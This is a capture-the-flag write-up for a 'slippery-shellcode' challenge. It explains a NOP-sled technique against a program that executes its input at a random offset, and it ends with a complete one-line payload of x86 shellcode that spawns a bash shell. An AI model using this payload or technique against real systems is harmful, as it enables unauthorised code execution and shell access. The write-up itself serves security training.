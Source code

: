 # slippery-shellcode
This [program](vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48 on the shell server. [Source](vuln).

## Hint
None

## Solution
Like the handy-shellcode challenge, this program executes the input we send, however, it does it in a more interesting way:
```c
  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();
```
It assigns a random "offset" from 1 to 256, adds that to the location of the beginning of the buffer, and executes it from there. This means it will execute the shellcode we pass in from a random location: anywhere between 1 to 256 bytes from the beginning. However, we can fill in the beginning of the buffer with 256 bytes of NOP characters (\x90), or any opcodes really that don't mess with the actual shellcode. This allows us to bypass the random executing of our buffer, as the program will always hit one of the 256 nop characters, "slide down" these nop's and hit our shellcode no matter what. We then keep the pipe open with `cat -` like before. Thus our payload looks like this (shellcode from http://shell-storm.org/shellcode/files/shellcode-606.php):
```(python -c "print '\x90'*256+'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'"; cat -)|  ./vuln```
